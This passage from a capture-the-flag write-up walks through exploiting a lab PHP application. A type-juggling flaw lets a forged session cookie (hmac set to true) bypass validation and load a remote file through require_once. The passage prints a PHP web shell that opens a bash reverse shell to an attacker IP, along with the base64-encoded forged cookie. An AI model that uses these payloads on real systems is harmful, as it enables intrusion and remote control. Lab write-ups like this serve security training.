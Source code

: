 When we made the request, the application returned a warning and an error:
```
Warning: require_once(0.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 64

Fatal error: require_once(): Failed opening required '0.php' (include_path='.:/usr/share/pear:/usr/share/php') in /var/www/html/index.php on line 64
```
![changing_hmac.png](../images/biscuit/changing_hmac.png)
<br>
Here, we have a Type Juggling issue in the session cookie with the `hmac` parameter. After testing, we found a value that allows us to bypass the validation. We need to set `true` in the `hmac` parameter.

We have a method inside `Auth_class.php` with `require_once(any_php_file.php)`. We can exploit this because it's essentially similar to the `include()` method in PHP. So, we need to pass our PHP shell file to `require_once`. Refs: [function.require-once.php](https://www.php.net/manual/en/function.require-once.php), [function.include.php](https://www.php.net/manual/en/function.include.php), and [PHP require_once Keyword](https://www.w3schools.com/php/keyword_require_once.asp).
<br>
I created a PHP file called `shell.php` with:
```php
<?php system("/bin/bash -c 'sh -i >& /dev/tcp/10.0.10.235/4444 0>&1'"); ?>
```
<br>
And now, we just need to create a local server with Python and send the request with the `hmac` parameter. Note: We don't need to add the PHP extension at the end of the URL.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/biscuit]
└──╼ $echo '{"hmac":true,"username":"http://10.0.10.235:8000/shell","expiration":1735246361}' | base64
eyJobWFjIjp0cnVlLCJ1c2VybmFtZSI6Imh0dHA6Ly8xMC4wLjEwLjIzNTo4MDAwL3NoZWxsIiwi
ZXhwaXJhdGlvbiI6MTczNTI0NjM2MX0K
```
<br>
And voilà, we got a reverse shell! Now, we just need to get a full TTY.
<br>
![reverse_shell.png](../images/biscuit/reverse_shell.png)
## Post exploitation
Here, I found some things with `linpeas`, but I wasn't successful with that. So, I decided to perform the recon manually.
